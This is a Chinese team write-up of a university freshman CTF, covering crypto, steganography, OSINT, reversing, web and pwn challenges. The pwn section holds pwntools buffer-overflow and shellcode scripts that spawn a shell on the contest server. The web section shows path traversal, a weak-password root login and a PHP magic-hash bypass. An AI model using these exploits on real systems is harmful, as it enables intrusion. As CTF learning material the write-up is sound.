layout: post
title: scuctf新生赛——幽篁终见天战队wp
author: junyu33
mathjax: true
tags: 

  - python
  - c
  - web
  - reverse
  - misc
  - crypto
  - pwn

categories: 

  - ctf

date: 2021-11-23 23:50:00

---

这场新生赛题目质量不错，我们“幽篁终见天”战队的每位成员都发挥了自己的长处，在比赛中玩得很尽兴。以下是排行榜截图和战队wp：



<!-- more -->

# WriteUp from junyu33

## Crypto-1:singin_Classic

HAZTMNZYGU3DOOBUG4YDCMRTHA3DKMBYGYYTCNJYHE2TANJXGEYTMOJQHA3DKNZUHA4TQNBZGU3TQNBYGE2DSOBWGY4DQNRWHE4DSMJQGQYTENI=

(base32)

836785678470123865086115895057116908657489849578481498668866989104125

(ascii)

83 67 85 67 84 70 123 86 50 86 115 89 50 57 116 90 86 57 48 98 49 57 84 81 49 86 68 86 69 89 104 125

SCUCTF{V2VsY29tZV90b19TQ1VDVEYh}

(base64)

SCUCTF{Welcome_to_SCUCTF!}

 

## Crypto-2:ez_classic

打开文件是一串01编码，根据提示可知密文的读法是两行交错来读（我开始以为W型指栅栏密码），可以使用脚本先读奇数位，再读偶数位。

之后的01串转成ascii，每八个分成一组，再打印十进制数值，得到了210与226两个数，猜想又是一种01串，长度为72。

如果把72再转成ascii，长度就只有9了，显然不可能。考虑morse，我们把210看成0，226看成1，试一下前几位，并没有看到有意义的文字。然而把210看成1，226看成0，就得到了以下图片：



但是最难的地方是：**morse不是非前缀编码，这就意味着不能在线性的时间内解密出原文，而且一个密文可以对应多个原文！**

（你看，flag中就没有tql的字段，但是我就推出来了）

经过与出题人的亲切交流，他告诉了我中间大部分的原文，然后剩下的只能靠暴搜解决了。

题目出得不是特别好。

SCUCTF{B1N?F3NCE!}

## Crypto-3:number_theory

真·数学题

题目的意思是，找p,q,r,s，使等式

$$(a^2+b^2+c^2+d^2)(x^2+y^2+z^2+w^2)=p^2+q^2+r^2+s^2$$

恒成立。

我的第一直觉是去问一个数学好的人，于是我求教了今年丘成桐女子中学生数学竞赛金奖的得主。



（真正学数学的怎么会搞这种无聊的东西qwq）

于是我在Wikipedia上找到了答案，欧拉太强了！！！



 

## Crypto-4:ez_RSA

 

Rsa模板题。了解rsa原理的，并且经历了python装插件这个难关的，都能做出来。

```python
import gmpy2
p = 213043791008118001973620295219389127641
q = 288394236514907373490429135931237985191
e = 65537
n = p * q
c = 2064504307456306488731553002068102151545513181275073778820466336566521706326 
d = gmpy2.invert(e,(p-1)*(q-1))
m = gmpy2.powmod(c,d,p*q)
print (hex(m)[2:].decode('hex'))
```


 

## Crypto-5:strange_RSA

 

n可以用factordb直接分解。

 

至于e与φ(n)不互素的问题，可以使用中国剩余定理求解，具体参考以下链接。

[https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E5%8D%81%E6%AC%A1%E6%96%B9%E6%A0%B9/README.md](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/十次方根/README.md)

 



 

## Crypto-7:Elliptic Curve

 

椭圆曲线的入门题，与攻防世界的easy ECC相比，缺少了a,b两个参数。但是，有三个已知点，我们可以通过椭圆曲线的方程解出这两个未知数。



注意这两个值要在模p的情况下有意义，我们可以用gmpy2.invert函数求出对应的值。

最后根据快速幂，我们可以写出以下代码：

```python
from gmpy2 import *
from Crypto.Util.number import *

zero = (0,0)

a = 82434704921831126317349084148380426791883173943813663537990423892369888514044
b = 311475221040936280208362290787407966613
n = 82434704921831126317349084148380426792000286866075383521515099269291038312183
p = 82434704921831126317349084148380426791883173943813663537990423892369888514061
G = (81403639825184272992871756462679165959131935479082301407409473940853140527035 , 111858327599117205208040416341606595974639126132558018462114484339055815343)

 
def add(p1, p2):
  if p1 == zero:
     return p2
  if p2 == zero:
     return p1
  (p1x,p1y),(p2x,p2y) = p1,p2
  if p1x == p2x and (p1y != p2y or p1y == 0):
     return zero
  if p1x == p2x:
     lam = (3 * p1x * p1x + a) * invert(2 * p1y , p) % p
  else:
     lam = (p2y - p1y) * invert(p2x - p1x , p) % p
  x = (lam**2 - p1x - p2x) % p
  y = (lam * (p1x - x) - p1y) % p
  return (int(x),int(y))
def point_neg(point):
  x, y = point
  res = (x, -y % p)
  return res
def fast_mul(k, point):
  '''
  a trick!
  '''
  if k < 0:
     return fast_mul(-k, point_neg(point))
  res = zero
  addend = point
  while k:
     if k & 1:
       res = add(res, addend)
     addend = add(addend, addend)
     k >>= 1
  return res
  
k = 73844933862216652622492520515324611426018473790347046447404478062546746765750

C1 = (20058089234486140225873266550951624285964438180038043783132571119098797258964 , 44425976028240060721292567543561982553652201677216540575424866418518533833686 )

C2 = (44219316884405871793950087163675141641324021196457542671365362829884688420072 , 42705405459815954011526630723538719826904473252385988608867562886364716986612 )

nC2 = fast_mul(k, C2)
m = add(C1,point_neg(nC2))
print(m)
print(hex(m[0] + m[1])[2:])
```


## Crypto-8:Vigenere

[quipquip.com](https://quipquip.com)

这种大段的文字，进行词频分析很容易解决。




## Misc-1:test_your_nc~~~

 

图片的尺寸太大，kali的终端有缩小文字的功能。

 

## Misc-2:OldKinderhoek

 

文件名叫Ook.txt，上网查询Ook编码，发现只有3种编码方式（恰好文本也只有0、1、4三个数），写个脚本排列组合一下，排版处理好，就可以拿到网站去解密了。

https://www.splitbrain.org/services/ook

 

## Misc-3:test_your_nc\~\~\~\~\~\~\~\~\~

 

作画比赛，通过可见字符填充像素，输入cat /f*命令即可。

（orc识别精度真的低，有时候同一个字符画有时能识别，有时不能识别）

 

## Misc-4:Time To Leave

 

流量题，将ttl字段添加到列上。按照时间顺序，只看ttl所对应的字节码，就可以看到每隔几个字符出现的flag。

 

## Misc-5:Fire in the hole

 

010-editor打开压缩文件



根据提示（文件夹也是一种文件），我们文件夹的形式改成文件的形式：



把第一排的flag/改成flag即可

scuctf{d1r_0r_fffffil3?}

 

## Misc-6:Puny先辈的咆哮

题目提示很明显，先用punycode解码，然后会得到一串不可描述的文字。复制一段文字在网上搜就可以搜到解码这段文字的网站。

https://roar.iiilab.com/

 

## Stego-1:EZ_Steg

 

Stegsolve打开，左右翻几下，二维码就出来了，扫一下就是flag。

 

## Stego-2:Baby_Steg

 

那个提示就很劝退，看不懂，“秘密信息比特”机翻味儿十足。

Stegsolve在调整到random color map的时候，细心的同学会发现左上角有串不规则的像素点，类似于这样：


把像素点进行01编码，转成ascii，就可以得到flag。虽然中间有颜色的那段看不清楚，但是flag是有意义的，可以猜得到（我一次就猜中了）。

## Web:vscodeServer

 

既然是简单题，而且界面那么现代，那么肯定不涉及注入之类的漏洞。

直接一输弱口令，就进去了，还是个root。

找到终端，ls，cat flag，完工。

 

## Web-6:include

 

最最最基础的文件包含，连我这个不碰web的人都写出来了。

?file=../../../flag

scuctf{1nclude_Y0u_g0t_1t}

 

## Java:命令执行

出题人撤回的手速不够快，还是被我下载到了。



 

## Osint-3:寂寞的夜

可以从图片看到有一家店叫“速8超市”，使用百度地图，可以找到为数不多的的几个地方，其中一个位于北京的街景图跟这张比较像，就成了。

 

## Pwn-1:test_your_nc

 

同buuctf pwn第一题，直接nc连接，cat flag即可。

 

## Pwn-2:quiz

 

前面三道题你会C语言就会做。

汇编基础还是得学的，毕竟代码放到asm文件并不能直接运行，甚至还没你肉眼观察来得快。

学习链接：https://www.icourse163.org/course/ZZU-1001796025

 

## Pwn-3:stackoverflow

pwn最简单的类型，只需要找到bufferlength和后门地址就可以了。

Vuln_echo函数中buf的长度为0x30，因为是64位，加上rbp的长度8，就是填充的长度。

返回地址就是backdoor函数中system(“bin/sh”)函数的地址。

```python
from pwn import *
#io = process('/ret2text')
io = connect('game.scuctf.com', 20006)
payload = b'a'*0x38 + p64(0x4012D7)
io.sendline(payload)
io.interactive()
```

 

## Pwn-4:ret2shellcode

 

64位程序，elf文件

可以使用不断io.recvline()来读取每一行的信息，再进行切片就可以截取到输入地址。

从某些方面来说，输入地址与泄露地址之间存在一定的偏移（可以通过动态调试查看rsi的地址与题目给出的地址差来确定），但本题偏移为0.

Payload=shellcode.ljust(k,’a’)+p64(buf)

k=bias+bufferlength+sizeof(ebp)

因此填充k的数量为0x88

```python
from pwn import *
context(arch = 'amd64',os = 'linux')#不加这行会出现sigill错误
#p = process('./ret2shellcode')
p = remote('game.scuctf.com',20004)
loc = p.recvline()
loc = p.recvline()
loc = p.recvline()
loc = p.recvline()
loc = p.recvline()
loc = p.recvline()
buf = int(loc[-15:-1],16)
shellcode = asm(shellcraft.sh())
payload = shellcode.ljust(0x88, b'a') + p64(buf)
p.sendline(payload)
p.interactive()
```

 

（Re最简单的题和最难的题都被队员抢了qwq）

 

## Re5:ezapk

 

（一点也不easy，光看jeb还不能解决问题。）

Mainactivity中有一个private成员，名曰check函数，在代码段中没有定义。

根据以往做题的经验，我马上用ida加载apk的库文件，找到了check函数。

（这代码看着真头疼，尤其是那个return）



个人猜测源码的含义是将输入的前半放到奇数位，后半放到偶数位，并将每一项与它的位置异或，与内部的密文进行对比。

我编写了解密脚本，但是flag部分字符出了点锅。于是我就只将每一位异或，肉眼观察出答案了。

 

## HappyRe:ezJava

 

（确实很happy）

Jeb4.2打开，反编译一下，往下翻直接看到flag。



## Re4:Upxed

 

虽然出题人希望我们手动脱壳，但是upx脱壳的结果也具有可读性，还是挺不错的。

提示说这是tea加密，这里有一个手写的C代码：

https://bbs.pediy.com/thread-266933.htm

我们查看反汇编：



密文就是那个v6数组，key就是THIS_IS_THE_KEYa，注意转换成int的时候要使用小端序。

然后还要注意加密循环次数（32次），一个magic number（-0x61C88647，注意，是“负数“，这点比较坑）。其余的照葫芦画瓢即可。

 

## Re9:Plants_Vs_Zombies（非预期解）

 **（正解是与“天堂之门”有关的技术，当然我现在肯定不会。）**

拿到游戏我先使用一些奇技淫巧，在半个小时以内的时间通关了（不要问我如何快速通关的），然而期望中的解密程序并没有出现。

然后在游戏失败时，根目录里面的flag.txt会被加密成flag.enc。我由于前面两道题都做了密码学，crypto杀疯了，我便尝试去寻找明文与密文的关系。



由图可知，明文和密文是按位加密，而且两者之间的换算有很明显的线性关系，只是加了数组中的地址，解密时只需在程序中减去地址即可。

（其中第七个字节有点特别，但是我们知道它肯定是“{“，因此我们暂且不去管它）

现在我们来确定k，b与mod这几个参数。

算k很容易，做差就可以，答案是0x20

算b的时候出了一点小锅，当我把ascii码为0的字符输进去时，程序会崩溃，经过与出题人的交流后得知是技术导致的锅。于是我把ascii为1输进去，得到结果0x20，因此b=0.

至于算mod,见下图：



很明显mod<=256，而且出现了“FB“这个字符，因此mod>251，因此mod只有255这个唯一值。

做到这里程序的加密函数已经被我完全理清了，接下来有两个办法：

1. 写解密函数。

2. 直接将原文和密文映射，用数组保存。

我选择了后者，因为32与255互质，因此理论上能够一一映射，但是在实战中还是出现了一些问题——打印出的flag有些字符无法显示。



那两个空的地方，左边应该是一个下划线，右边我尝试了一下fate，gate这两个单词，结果就出来了。

参考代码：

```c
#include<stdio.h>
#include<string.h>
int enc[]={
0x6E, 0x6D, 0xB0, 0x6F, 0x92, 0xD1, 0x11, 0x74, 0xD5, 0xF6, 0x76, 0x78, 0x39, 0xDA, 0xF9, 0xFC,
0xDD, 0xFC, 0x1F, 0xBF, 0x40, 0xE3, 0xC2, 0xE4, 0x86, 0x04, 0x06, 0x47, 0xAA, 0xC9, 0xCD,
};
int encr(int x,int pos){
	int k=0x20;
	int mod=255;
	return (k*x+pos)%mod;
}
int inv[300];
int main()
{
	for(int i=1;i<=127;i++)
		inv[encr(i,0)]=i;
	for(int i=0;i<32;i++)
		printf("%c",inv[enc[i]-i]);
	return 0;
}
```


# WriteUp from xiran

## Osint-1：该走哪条路

观察图片：成都中新

在地图搜索，得到flag

 

## Osint-2：赶火车

把图片放入百度识图就找到原图

查看图片介绍找到flag



## Osint-4：蓝色星球

在百度筛选卫星图，获得


一眼看出是意大利



获得答案

 

 

## Osint-5：旅行日记

通过告示牌定位到日本大津

查看大津的JR车站名字，找到和告示牌相像的

查看指路牌获得方向

利用谷歌地图获得答案

 

 

## RE1:Welcome

IDA载入，获得一串数字

输入到程序得到FLAG

 

 

## RE2:Xor

IDA载入，得到是简单异或

查看内存，反异或得到答案

 

 

## RE3:DebugMe

IDA远程调试

找到程序的正确终点，通过调整寄存器让程序跑到正确位置，拿到flag

 

 

## RE6:EzLinearEquation

IDA载入，得到多元1次方程，调用python的z3库解方程即可

[Re6.cpp](https://netcut.cn/1fl6ahg7f)（一周内有效）

 

## RE7:VirtualMachine

x32dbg载入

 

输入函数



 

比较函数



 

比较函数首先比较字符串长度

然后对加密后的输入和密文比较

通过实验发现是单个字符依次加密

爆破flag进行验证即可

 

 

## HardRe:Fxxk

Od载入

单步执行到主函数



输入函数



得知字符串的长度为8



验证字符串的长度是否为8



对每一个字符通过这个函数验证

 

进入这个函数



分析此函数得 验证输入是否在A-Z范围内

顺便加密输入

 

观察寄存器得到加密后的输入



 

继续执行，发现一个字符串



 

继续执行代码，发现是把加密后的输入挨个与 “LMSULHNH“比较

 

方法1：爆破flag

方法2：根据汇编的加密函数反推flag


# WriteUp from Cyan

## [Web1] Get&Post



Post flag=flagggg

Get a=flag

 

## [Web2] Hardphp

纪律性检查robots.txt后访问indexxxxx.php

找到源码

 

构造0e开头且md5值0e开头的字符串0e215962017

 


## [Web5]抽象的代码艺术

将源码url编码后

 

发现多了

> %80%AE%E2%81%A6  %80%AE%E2%80%A6

这两种不可见字符，构造

